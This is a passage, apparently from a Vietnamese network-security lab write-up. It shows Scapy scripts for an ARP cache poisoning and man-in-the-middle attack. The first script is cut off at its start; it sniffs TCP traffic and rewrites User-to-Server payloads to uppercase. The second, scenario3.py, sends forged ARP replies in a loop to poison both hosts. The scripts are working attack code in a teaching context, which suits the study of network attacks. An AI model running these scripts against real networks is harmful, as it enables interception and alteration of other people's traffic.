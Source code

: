 ```py
			data = pkt[TCP].payload.load
			newdata = data.upper()
			send(newpkt/newdata)
		else:
			send(newpkt)

	elif pkt[IP].src == SERVER_IP and pkt[IP].dst == USER_IP:
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].chksum)
		send(newpkt)

pkt = sniff(iface='eth0', filter='tcp',prn=spoof_pkt)
```

Script này được chạy trên máy Attacker, mục đích của nó là bắt các gói tin và sửa nội dung các gói tin đó.

Các gói tin gửi từ User đến Server sẽ bị sửa data, cụ thể là viết thường sửa thành viết hoa.

Ngược lại các gói tin gửi từ Server về User thì không can thiệp.

Chương trình này minh họa kịch bản tấn công khi gửi gói tin từ Server đến User.

- `scenario3.py`
```py
#!/usr/bin/python3
from scapy.all import *
import time
 
# Định nghĩa thông tin IP và MAC cho từng máy
USER_IP = '10.61.7.10'
USER_MAC = '02:42:0a:3d:07:0a'
SERVER_IP = '10.61.7.20'
SERVER_MAC = '02:42:0a:3d:07:14'
ATTACKER_MAC = '02:42:0a:3d:07:33'
 
# Hàm gửi các gói ARP giả mạo liên tục
def send_arp_poison():
    # Gói tin giả mạo gửi đến User, giả danh địa chỉ IP của Server
    pkt_to_user = Ether(src=ATTACKER_MAC, dst=USER_MAC) / ARP(op=2, psrc=SERVER_IP, pdst=USER_IP, hwsrc=ATTACKER_MAC, hwdst=USER_MAC)
 
    # Gói tin giả mạo gửi đến Server, giả danh địa chỉ IP của User
    pkt_to_server = Ether(src=ATTACKER_MAC, dst=SERVER_MAC) / ARP(op=2, psrc=USER_IP, pdst=SERVER_IP, hwsrc=ATTACKER_MAC, hwdst=SERVER_MAC)
 
    while True:
        # Gửi gói tin giả mạo tới cả User và Server
        sendp(pkt_to_user, verbose=False)
        sendp(pkt_to_server, verbose=False)
        time.sleep(0.5)  # Gửi gói tin giả mạo mỗi 0.5 giây để duy trì tấn công
 
# Chạy hàm tấn công
send_arp_poison()
```
